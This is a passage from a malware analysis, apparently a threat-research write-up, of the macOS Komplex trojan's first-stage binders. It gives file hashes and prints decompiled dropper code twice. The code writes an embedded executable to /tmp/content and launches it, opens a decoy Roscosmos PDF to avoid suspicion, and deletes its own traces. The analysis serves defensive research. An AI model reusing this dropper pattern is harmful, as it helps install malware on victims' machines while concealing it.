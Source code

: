 


123456

2a06f142d87bd9b66621a30088683d6fcec019ba5cc9e5793e54f8d920ab0134: Mach-O 64-bit executable x86_64c1b8fc00d815e777e39f34a520342d1942ebd29695c9453951a988c61875bcd7: Mach-O executable i386cffa1d9fc336a1ad89af90443b15c98b71e679aeb03b3a68a5e9c3e7ecabc3d4: Mach-O universal binary with 2 architectures





Regardless of architecture, these initial binders all save a second embedded Mach-O file to ‘/tmp/content’. This file is the Komplex dropper used in the next stage of installation and to maintain persistence. After saving the Komplex dropper, these binders would then save a legitimate decoy document to the system and open them using the ‘Preview’ application to minimize suspicion of any malicious activity. Figure 1 shows the main function found in one of the initial droppers that saves and opens a PDF decoy, as well as executes another executable file saved as ‘/tmp/content’.





int _main(int arg0, int arg1) {
    var_28 = [[NSAutoreleasePool alloc] init];
    var_38 = [NSSearchPathForDirectoriesInDomains(0xf, 0x1, 0x1) objectAtIndex:0x0];
    var_40 = [NSString stringWithFormat:@"%@/roskosmos_2015-2025.pdf", var_38];
    var_48 = [NSString stringWithFormat:@"SetFile -a E %@/roskosmos_2015-2025.pdf", 
var_38];
    var_50 = [NSString stringWithFormat:@"rm -rf %@/roskosmos_2015-2025.app", var_38];
    var_58 = [NSString stringWithFormat:@"open -a Preview.app %@/roskosmos_2015-
2025.pdf", var_38];
    [[NSData dataWithBytes:_joiner length:0x20f74] writeToFile:@"/tmp/content" 
atomically:0x1];
    system([var_50 UTF8String]);
    system("chmod 755 /tmp/content");
    [[NSData dataWithBytes:_pdf length:0x182c82] writeToFile:var_40 atomically:0x1];
    system([var_48 UTF8String]);
    var_70 = [[NSTask alloc] init];
    [var_70 setLaunchPath:@"/tmp/content"];
    [var_70 launch];
    [var_70 waitUntilExit];
    system([var_58 UTF8String]);
    remove(*arg1);
    [var_28 release];
    return 0x0;
}




123456789101112131415161718192021222324

int _main(int arg0, int arg1) {    var_28 = [[NSAutoreleasePool alloc] init];    var_38 = [NSSearchPathForDirectoriesInDomains(0xf, 0x1, 0x1) objectAtIndex:0x0];    var_40 = [NSString stringWithFormat:@"%@/roskosmos_2015-2025.pdf", var_38];    var_48 = [NSString stringWithFormat:@"SetFile -a E %@/roskosmos_2015-2025.pdf", var_38];    var_50 = [NSString stringWithFormat:@"rm -rf %@/roskosmos_2015-2025.app", var_38];    var_58 = [NSString stringWithFormat:@"open -a Preview.app %@/roskosmos_2015-2025.pdf", var_38];    [[NSData dataWithBytes:_joiner length:0x20f74] writeToFile:@"/tmp/content" atomically:0x1];    system([var_50 UTF8String]);    system("chmod 755 /tmp/content");    [[NSData dataWithBytes:_pdf length:0x182c82] writeToFile:var_40 atomically:0x1];    system([var_48 UTF8String]);    var_70 = [[NSTask alloc] init];    [var_70 setLaunchPath:@"/tmp/content"];    [var_70 launch];    [var_70 waitUntilExit];    system([var_58 UTF8String]);    remove(*arg1);    [var_28 release];    return 0x0;}
